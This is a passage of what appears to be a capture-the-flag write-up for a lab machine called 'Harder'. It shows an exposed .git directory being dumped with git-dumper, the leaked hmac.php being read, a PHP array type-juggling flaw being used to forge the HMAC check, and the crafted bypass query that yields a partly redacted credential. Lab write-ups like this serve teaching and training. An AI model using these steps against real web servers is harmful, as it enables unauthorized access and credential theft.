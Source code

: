 the message on `index.php` said `our source code will be reviewed soon ...`. Where do dev are using to keep trace of their source code? yes `Git`. Moreover, This room has git tagg. I try visite `/.git` but reviced 404. 


The plan is we can try to dump the content of the .git repositories from webservers. After some digging, I found 2 tools on github which can be use to prefrom the attack. 
1. [git-scanner](https://github.com/HightechSec/git-scanner)
2. [git-dumper](https://github.com/arthaud/git-dumper)

in this case, we will use `git-dumper`.

```console
bibo318@parrot:~/script/git-dumper$ python3 git-dumper.py http://pwd.harder.local/.git ../../THM/harder/src
bibo318@parrot:~/THM/harder/src$ ls
auth.php  hmac.php  index.php
```
as you see, there are 3 files in git repo. after checking each one of them. `hmac.php` seem like the most juciy ones.

```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```
the problem is I not really good at `php` but it seem like if `$hm == $_GET['h']` we migh re recives some juicy stuff. I google `bypassing an HMAC check` and I found [this](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up). 


The link above discribe really clear how we can by pass this, to sum up: if `n` is an array `$secret` will equal to `false`. That mean `$hm = hash_hmac('sha256', $_GET['host'], false);`. We can generate our own `h` that is equal to `$hm` since we know exacly what how `$hm` is generated. Now open php console.
```console
bibo318@parrot:~/THM/harder/src$ php -a
php > $hm = hash_hmac('sha256','kurohatwashere.com',false);
php > print($hm);
abd809f2998ddc00e2e31cf8e8fd2a96d00ae75b71d5b413ae01fc08826f5bb5
```
now we get our `h` let craft own payload:
```
/?n[]=&host=kurohatwashere.com&h=abd809f2998ddc00e2e31cf8e8fd2a96d00ae75b71d5b413ae01fc08826f5bb5
```
nice, we are in. here is the new credential we got.
```
http://shell.harder.local 	evs 	9FRe____________
```
I try to remove cookie so that I can login as `evs` but unforuanly it didnt works. It seem like `evs` is not exist... in this domain. Then I realize tha we got an new domain name, let add it to `/etc/hosts`. at this point ur `/etc/hosts` should looks like this
```
10.10.x.x pwd.harder.local shell.harder.local
```